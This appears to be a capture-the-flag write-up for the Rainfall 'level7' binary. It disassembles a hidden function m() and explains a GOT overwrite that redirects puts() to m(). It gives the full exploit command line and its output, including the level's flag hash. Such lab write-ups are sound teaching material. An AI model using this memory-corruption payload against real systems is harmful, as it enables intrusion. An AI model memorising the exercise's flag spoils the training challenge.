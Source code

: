 For the first time during rainfall, we have an executable with two args needed, in addition we can exploit `EDX` register.

We use `objdump -d level7` and we find an uncalled function again named `m()` :
```nasm
080484f4 <m>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 18             	sub    $0x18,%esp
 80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
 804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
 804851f:	c9                   	leave  
 8048520:	c3                   	ret 
```

The goal here is to fill `argv[1]` with `puts()` **Global Offset Table** address (`0x8049928`) and fill `argv[2]` which represents `EDX` with `0x080484f4` for replace the address of `puts()` by `m()` address:
```bash
./level7 $(python -c "print '\x28\x99\x04\x08' * 6") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1638395898
```

A suspicious number appeared after the flag which represents the `%d` from `printf()`, we can ignore it.